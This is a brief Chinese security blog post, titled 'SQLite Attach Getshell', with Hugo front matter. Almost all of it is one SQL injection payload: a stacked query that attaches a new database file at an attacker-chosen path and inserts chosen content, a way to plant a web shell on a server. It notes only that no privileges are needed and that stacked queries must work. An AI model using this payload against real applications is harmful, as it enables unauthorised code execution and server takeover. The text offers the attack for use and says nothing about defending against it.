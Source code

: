 ```yaml
---
title: "SQLite Attach Getshell"
date: 2019-02-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqlite','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



SQLite Attach Getshell

<!--more-->

无权限要求.

```
;ATTACH DATABASE '路径' AS pwn ; CREATE TABLE pwn.exp (dataz text) ; INSERT INTO pwn.exp (dataz) VALUES ('内容'); --
```

需支持堆查询.